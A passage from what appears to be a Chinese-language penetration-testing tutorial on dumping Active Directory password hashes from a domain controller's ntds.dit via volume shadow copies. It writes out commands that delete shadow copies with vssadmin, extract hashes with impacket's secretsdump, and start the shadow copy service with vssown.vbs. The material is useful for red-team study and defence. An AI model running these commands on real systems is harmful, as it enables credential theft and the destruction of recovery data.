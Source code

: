 Step 3：之后执行以下命令删除影卷信息：

`vssadmin delete shadows /for=c: /quiet`

[![image.png](assets/1698894155-6520f9898b6ff3555cc61ecd41b9ec95.png)](https://storage.tttang.com/media/attachment/2022/09/30/ab5474fa-1563-4d6a-88ae-f9201075ac91.png)

Step 4：之后通过impacket来导出hash值

./secretsdump.py -system /root/vssadmin/SYSTEM -ntds /root/vssadmin/ntds.dit LOCAL

[![image.png](assets/1698894155-e6743c38c0a67ce8c6009f378c380379.png)](https://storage.tttang.com/media/attachment/2022/09/30/09bb6e6b-e43a-46c1-a1e6-ef2f380bf7a8.png)

##### [vssown.vbs](#toc_vssownvbs)

与vssadmin程序类似，Tim Tomes开发了vssown([https://github.com/lanmaster53/ptscripts/blob/master/windows/vssown.vbs](https://github.com/lanmaster53/ptscripts/blob/master/windows/vssown.vbs) )，它是一个可视化的基本脚本，可以创建和删除卷影副本，从卸载的卷影副本运行任意可执行文件，以及启动和停止卷影复制服务。

Step 1:启动影卷拷贝服务

cscript vssown.vbs /start

[![image.png](assets/1698894155-d86aebaa19b269925737285ec035292d.png)](https://storage.tttang.com/media/attachment/2022/09/30/a214f087-17a0-4d76-874e-f5338b1849d1.png)
